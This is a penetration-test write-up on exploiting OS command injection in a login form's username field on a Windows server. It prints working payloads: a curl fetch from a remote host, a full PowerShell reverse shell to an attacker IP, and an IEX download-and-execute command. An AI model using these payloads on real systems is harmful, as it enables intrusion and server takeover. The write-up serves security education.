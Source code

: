 ```yaml
---
title: "OS Command Injection to Remote Code Execution"
date: 2024-12-10 02:0
---
```


Exploiting OS Command Injection for Remote Code Execution.

## Target Background
The target is a web application designed for asset management, allowing users to create and manage assets efficiently.

## Authentication Mechanisms
The application supports multiple authentication methods, including a standard login form, Google SSO, and GitHub SSO.

## Identifying the Attack Vector
The attack vector was identified as the login form. Users authenticate by submitting valid credentials through this form. Detailed reconnaissance revealed that the **username** field in the JSON request object is susceptible to OS Command Injection.

## Attack Surface Analysis
During reconnaissance, it was determined that the application operates on a Windows environment. This insight guided the selection of Windows-specific OS command payloads for vulnerability testing. The application’s response was observed to return boolean values (true or false), prompting the use of out-of-band (OOB) techniques to confirm the existence of the vulnerability.

As the application response was observed to be boolean **true** or **false** the out of band request technique was used to confirm the attack vector.

### Request
```http
POST /username_exists HTTP/1.1
Host: target.com
Cookie: session cookie: hello
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: keep-alive

{
	"username": "whoami"
}
```

### Response
```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 23 Oct 2024 14:55:05 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
Cache-Control: no-store
Pragma: no-cache

{
	"success": false
}
```

To validate the attack vector, various OOB techniques such as ping, curl, and wget were employed. Payloads using the ping command revealed variations in response times, confirming the vulnerability.

### Example Payloads
Windows OS Command injection payload used for exploitation.

```text
|ping -c 5 127.0.0.1||
|curl https://thevillagehacker.com/exploit/file.txt||
```

Using the curl technique, a file was successfully downloaded from a remote server, confirming command injection.

## Exploitation
Based on the Windows environment of the application, a PowerShell reverse shell payload was selected for exploitation. This approach enabled a reverse connection to the attacker’s machine.

### PowerShell Reverse Shell Payload
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

#### Final Exploitation Payload

```powershell
|powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('https://thevillagehacker.com/mypowershell.ps1')"||
```

Upon injecting the above payload, a reverse shell connection was established with the application server. Since the application was running with administrative privileges, full control of the server was achieved.

## Conclusion
The exploitation of an OS Command Injection vulnerability in the **username** field of the login form enabled remote code execution on the target system. The successful attack highlights the importance of securing input fields and implementing robust validation mechanisms to prevent such vulnerabilities.

## Reference
- https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).